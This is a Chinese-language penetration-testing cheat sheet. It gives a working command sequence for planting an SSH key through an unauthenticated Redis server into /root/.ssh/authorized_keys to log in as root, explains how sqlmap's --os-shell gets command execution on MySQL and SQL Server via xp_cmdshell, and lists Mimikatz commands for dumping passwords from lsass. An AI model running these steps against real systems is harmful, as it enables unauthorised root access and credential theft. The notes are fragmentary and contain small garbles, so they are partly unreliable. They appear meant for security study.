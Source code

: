 save

写入ssh文件

ssh-keygen -t rsa

生成一个private\_key public\_key .pub

(echo -e "\\n\\n" | cat xxx.pub | echo -e "\\n\\n") > test.txt 添加回车

传输文件

cat test.txt | redis-cli -x set wahaha 此时就相当于将变量wahaha的值为test.txt里的内容

redis-cli: config set dir /root/.ssh

redis-cli: config set dbfilename authorized\_keys

save

ssh -i ida\_rsa root@ip

## MongoDB

面向文档的开源nosql数据库使用json文档来存储任何数据 ，C++开发

## \--os-shell原理

**Mysql**

必要条件：

*   拥有网站的写入权限
    
*   Secure\_file\_priv参数为空或者为指定路径。
    

普通注入--os-shell主要是通过上传一个sqlmap的马，然后通过马来进行命令执行。

**Sqlserver**

必要条件：

*   数据库支持外连
    
*   数据库权限为SA权限
    

Sqlserver --os-shell主要是利用`xp_cmdshell`扩展进行命令执行。

## nmap脚本参数

\--temper

## Mimikatz

Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从 lsass.exe 进程中获取当前登录系统用户名的密码

第一步依然是提升权限：privilege::debug 第二步抓取密码：lsadump::lsa /patch

## MSF Metasploit
